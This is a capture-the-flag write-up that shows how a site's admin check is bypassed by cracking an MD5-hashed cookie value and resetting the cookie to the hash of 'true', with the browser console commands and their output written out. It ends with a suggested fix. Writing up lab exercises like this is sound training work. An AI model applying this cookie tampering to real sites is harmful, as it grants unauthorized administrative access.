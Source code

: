 # Unprotected Admin Cookie

## Vulnerability

Looking at the page's cookies, we can see:
```
> document.cookie
< 'I_am_admin=68934a3e9455fa72420237eb05902327'
```

Using a universal hash decryptor likes [hashes.com](https://hashes.com/en/decrypt/hash), the MD5 match has been found:
```
68934a3e9455fa72420237eb05902327:false:MD5
```

So by settings the `I_am_admin` cookie value as `md5('true')` a.k.a `b326b5062b2f0e69046810717534cb09`, we get the flag after a page reload.
```
> document.cookie = 'I_am_admin=b326b5062b2f0e69046810717534cb09'
> window.location.reload();
< Good job! Flag : ...
```

## Possible Fix

- Use an opaque PHP session to store this information.
